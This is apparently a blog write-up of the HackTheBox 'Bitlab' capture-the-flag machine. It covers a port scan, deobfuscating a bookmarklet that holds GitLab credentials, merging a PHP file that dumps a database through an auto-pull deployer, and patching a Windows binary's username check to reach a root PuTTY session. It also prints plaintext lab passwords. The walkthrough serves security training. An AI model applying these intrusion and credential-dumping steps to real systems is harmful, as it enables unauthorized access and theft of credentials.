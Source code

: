 ```yaml
---
title: "Bitlab - HackTheBox"
date: "2020-01-11"
tags: []
---
```


Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-11 12:23 EST
Nmap scan report for 10.10.10.114
Host is up (0.058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit the website on port 80:
![](/images/hackthebox/bitlab/bitlab.png)

This is a Gitlab server installation and trying common username and passwords
combinations or a bruteforce with Hydra does not gives us anything, but by
visiting the [Help](http://10.10.10.114/help/bookmarks.html) link in the bottom, we find an interesting page:

![](/images/hackthebox/bitlab/help.png)

The most interesting link is the last one, Gitlab login, which contains this
javascript function:
```js
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It is obfuscated, so let's use a tool like `https://beautifier.io/` to improve
the readability:
```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

And let's replace the variable with their values:

```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
})()
```

Basically what it does is it autocompletes the login form with `clave` as
username and `11des0081x` as password. After logging in we find two
repositories:
![](/images/hackthebox/bitlab/repositories.png)

This is the code of Deployer:
```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```
It does a Git pull automatically after a merge is done on the Profile
repository. Luckily for us, the Profile repository is cloned into the root of
the web server, and it's visitable by going on the user's settings (which is
strange, maybe it was an error).

Another interesting thing can be found in the user's snippets:
![](/images/hackthebox/bitlab/snippets.png)

The logical thing to do now is to try to use those credentials to dump the
table, so let's create a file called dump.php in the Profile repository and let's write the
following code:
```php
<?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection,"SELECT * FROM profiles;");
    var_dump(pg_fetch_all($result));
?>
```
After creating a merge request and accepting it, the Deployer project will
automatically pull the changes and the `dump.php` file will be visitable. Here
is it's output:
```json
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
```

The password looks like base64 and it gets decoded as `ssh-str0ng-p@ss`, but
there is an invalid padding, and the password is the actual base64 string. I
hate when in CTFs these things happen, it's just a loss of time.
So let's connect with SSH and let's get the user flag:
```
clave@bitlab:~$ wc -c user.txt
33 user.txt
```

# Privilege escalation
The first thing that jumped to my eyes is a file in user's home:
```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

Let's copy it on our machine to analyze it:
`scp clave@10.10.10.114:/home/clave/RemoteConnection.exe .`

Using Ghidra to reverse engineer it we can find some interesting strings:
![](/images/hackthebox/bitlab/strings.png)

And those strings are used in this function:
{{< highlight C "linenos=table, hl_lines=71" >}}
/* WARNING: Could not reconcile some variable overlaps */

void FUN_00401520(void)

{
  LPCWSTR pWVar1;
  undefined4 ***pppuVar2;
  LPCWSTR lpParameters;
  undefined4 ***pppuVar3;
  int **in_FS_OFFSET;
  uint in_stack_ffffff44;
  undefined4 *puVar4;
  uint uStack132;
  undefined *local_74;
  undefined *local_70;
  DWORD local_6c;
  void *local_68 [4];
  undefined4 local_58;
  uint local_54;
  void *local_4c [4];
  undefined4 local_3c;
  uint local_38;
  undefined4 ***local_30 [4];
  int local_20;
  uint local_1c;
  uint local_14;
  int *local_10;
  undefined *puStack12;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack12 = &LAB_004028e0;
  local_10 = *in_FS_OFFSET;
  uStack132 = DAT_00404018 ^ (uint)&stack0xfffffffc;
  *(int ***)in_FS_OFFSET = &local_10;
  local_6c = 4;
  local_14 = uStack132;
  GetUserNameW((LPWSTR)0x4,&local_6c);
  local_38 = 0xf;
  local_3c = 0;
  local_4c[0] = (void *)((uint)local_4c[0] & 0xffffff00);
  FUN_004018f0();
  local_8 = 0;
  FUN_00401260(local_68,local_4c);
  local_74 = &stack0xffffff60;
  local_8._0_1_ = 1;
  FUN_004018f0();
  local_70 = &stack0xffffff44;
  local_8._0_1_ = 2;
  puVar4 = (undefined4 *)(in_stack_ffffff44 & 0xffffff00);
  FUN_00401710(local_68);
  local_8._0_1_ = 1;
  FUN_00401040(puVar4);
  local_8 = CONCAT31(local_8._1_3_,3);
  lpParameters = (LPCWSTR)FUN_00401e6d();
  pppuVar3 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar3 = local_30;
  }
  pWVar1 = lpParameters;
  pppuVar2 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar2 = local_30;
  }
  while (pppuVar2 != (undefined4 ***)(local_20 + (int)pppuVar3)) {
    *pWVar1 = (short)*(char *)pppuVar2;
    pWVar1 = pWVar1 + 1;
    pppuVar2 = (undefined4 ***)((int)pppuVar2 + 1);
  }
  lpParameters[local_20] = L'\0';
  if (local_6c == L'clave') {
  ShellExecuteW((HWND)0x0,L"open",L"C:\\Program Files\\PuTTY\\putty.exe",lpParameters,(LPCWSTR)0x0, 10);
  }
  if (0xf < local_1c) {
    operator_delete(local_30[0]);
  }
  local_1c = 0xf;
  local_20 = 0;
  local_30[0] = (undefined4 ***)((uint)local_30[0] & 0xffffff00);
  if (0xf < local_54) {
    operator_delete(local_68[0]);
  }
  local_54 = 0xf;
  local_58 = 0;
  local_68[0] = (void *)((uint)local_68[0] & 0xffffff00);
  if (0xf < local_38) {
    operator_delete(local_4c[0]);
  }
  *in_FS_OFFSET = local_10;
  FUN_00401e78();
  return;
}
{{< /highlight >}}

It looks like it uses some functions to decrypt a password and use it to login
with PuTTY to a machine on line 71. The only problem is that the user that runs
the program must be named `Clave`, and this check is at address `0x401640`:
![](/images/hackthebox/bitlab/graph.png)

We can patch the program by editing `JNZ LAB_00401662` at address `0x401647` to `JMP 0x00401649` to
unconditionally jump, and running the patched program gets us a root shell on
the machine:
![](/images/hackthebox/bitlab/putty.png)

Cool! This was my first machine that needed reverse engineering so it took me a
while, and the important thing that we can learn is to not be lazy and use
strange methods to save passwords and important stuff.

Another way that this step could have been done is to use a debugger and put a breakpoint after the password gets decoded and read the memory:
```
Qf7]8YSV.wDNF*[7d?j&eD4^
```

Thanks for reading!
